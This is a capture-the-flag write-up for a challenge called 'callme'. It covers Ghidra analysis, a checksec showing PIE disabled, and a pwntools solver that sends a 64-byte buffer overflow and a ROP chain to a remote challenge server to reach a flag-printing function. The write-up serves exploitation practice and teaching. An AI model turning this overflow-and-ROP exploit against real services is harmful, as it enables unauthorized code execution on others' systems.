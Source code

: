 # callme

> Let's see if you can get the flag.

Download the attachment [here](file/callme)

## How to Solve

First we use `Ghidra` to do static analysis, and look the main function


[Image extracted text: [Image not found]]


Likely there are nothing to do, but we see some interesting function


[Image extracted text: [Image not found]]


That's mean we need to jump to `callme` function and read the flag, so at the main function we just need filled the `local_54` variable which is has 64 bytes

And we do the checksec


[Image extracted text: [Image not found]]


Because PIE is not enable it's mean the function address is not gonna change every process

And find the function address at `Ghidra`


[Image extracted text: [Image not found]]


We got the address is `0x0804875e`

This the solver I use

```
from pwn import *

exe = './callme'
host, port = '139.144.184.150', 3333
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(exe)
context.log_level = 'info'

# io = process(exe)
io = remote(host, port)

offset = b'A'*64

payload = flat([
    offset,
    0x0804875e,
    rop.ret.address,
    elf.sym['callme']
])

io.sendline(payload)
io.interactive()
```


[Image extracted text: [Image not found]]


And we got flag

```
BDSEC{reverse_engineering_shatters_the_chains_of_ignorance}
```